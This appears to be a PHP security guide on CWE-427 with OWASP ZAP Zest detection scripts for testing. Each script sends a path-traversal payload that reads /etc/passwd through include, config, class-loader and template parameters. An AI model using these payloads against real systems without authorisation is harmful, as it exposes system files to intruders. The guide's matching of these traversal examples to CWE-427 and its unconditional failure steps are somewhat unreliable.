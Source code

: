 # Uncontrolled Search Path Element (CWE-427) in PHP

###### Uncontrolled Search Path Element (CWE-427)

**Definition:**
Uncontrolled Search Path Element occurs when a program uses a fixed and potentially predictable search path to locate resources (e.g., libraries, configuration files). This could lead attackers to place malicious resources in the path, causing the program to execute or load them unintentionally.

**Variations and Impacts in PHP Web Applications:**
For PHP web applications, especially using popular frameworks like Laravel, Symfony, Zend, etc., Uncontrolled Search Path Element vulnerabilities can manifest in several ways:

1. **Including Files Based on User Input:**
   - Usage of `include`, `require`, `include_once`, and `require_once` with user-supplied input without proper validation.
  
2. **Loading Configuration or Resources Based on User Input:**
   - Usage of functions like `file_get_contents` or `fopen` with paths derived from user input.

3. **Dynamic Class Loading:**
   - Usage of `spl_autoload_register` with user-supplied class names which might include paths.

4. **Template Engines:**
   - Allowing users to specify template paths without validation when using engines like Twig in Symfony.

**Detection Using OWASP ZAP Zest Scripts:**
To detect these variations, Zest scripts can be utilized. Zest is a domain-specific scripting language designed for automating security tests within the OWASP ZAP tool.

Here are Zest scripts for the different variations:

#### Variation 1: File Inclusion Based on User Input
```json
{
  "title": "Detect Uncontrolled Search Path Element in File Include",
  "description": "Detects if user input is directly used in include function leading to code execution.",
  "prefix": "http://{your-target-site}",
  "statements": [
    {
      "type": "ZestRequest",
      "method": "GET",
      "url": "http://{your-target-site}/vulnerable.php?file=../../../../etc/passwd",
      "response": {
        "statusCode": 200
      },
      "assertions": [
        {
          "type": "BodyRegex",
          "regex": "root:.*:0:0:"
        }
      ]
    },
    {
      "type": "Fail",
      "message": "Potential Local File Inclusion Vulnerability Detected."
    }
  ]
}
```

#### Variation 2: Loading Configuration or Resources
```json
{
  "title": "Detect Uncontrolled Search Path Element in File Load",
  "description": "Detects if user input is used in file_get_contents leading to arbitrary file reading.",
  "prefix": "http://{your-target-site}",
  "statements": [
    {
      "type": "ZestRequest",
      "method": "GET",
      "url": "http://{your-target-site}/config-loader.php?config=../../../../etc/passwd",
      "response": {
        "statusCode": 200
      },
      "assertions": [
        {
          "type": "BodyRegex",
          "regex": "root:.*:0:0:"
        }
      ]
    },
    {
      "type": "Fail",
      "message": "Potential Arbitrary File Read Vulnerability Detected."
    }
  ]
}
```

#### Variation 3: Dynamic Class Loading
```json
{
  "title": "Detect Dynamic Class Loading Vulnerability",
  "description": "Detects if user input is used in dynamic class loading.",
  "prefix": "http://{your-target-site}",
  "statements": [
    {
      "type": "ZestRequest",
      "method": "GET",
      "url": "http://{your-target-site}/class-loader.php?class=../../../../etc/passwd",
      "response": {
        "statusCode": 200
      },
      "assertions": [
        {
          "type": "BodyRegex",
          "regex": "root:.*:0:0:"
        }
      ]
    },
    {
      "type": "Fail",
      "message": "Potential Dynamic Class Loading Vulnerability Detected."
    }
  ]
}
```

#### Variation 4: Template Engines
```json
{
  "title": "Detect Template Path Manipulation Vulnerability",
  "description": "Detects if user input is used in template path loading.",
  "prefix": "http://{your-target-site}",
  "statements": [
    {
      "type": "ZestRequest",
      "method": "GET",
      "url": "http://{your-target-site}/template-loader.php?template=../../../../etc/passwd",
      "response": {
        "statusCode": 200
      },
      "assertions": [
        {
          "type": "BodyRegex",
          "regex": "root:.*:0:0:"
        }
      ]
    },
    {
      "type": "Fail",
      "message": "Potential Template Path Manipulation Vulnerability Detected."
    }
  ]
}
```

### Implementation Details:
- **Endpoints**: Replace `{your-target-site}` and endpoints (e.g., `vulnerable.php`, `config-loader.php`, `class-loader.php`, `template-loader.php`) with the actual URL and vulnerable endpoints of the application under test.
- **Patterns**: The regex pattern `root:.*:0:0:` is used to detect `/etc/passwd` file content in Unix-like systems. Modify this regex based on the target environment.

The provided Zest scripts are designed to exploit typical uncontrolled search path scenarios. They help in identifying vulnerabilities by simulating actual attack patterns. The assertions and failure messages ensure clarity in identifying the potential vulnerabilities while keeping false positives and negatives low. Make sure the scripts align with the specific context of your application during the testing phase.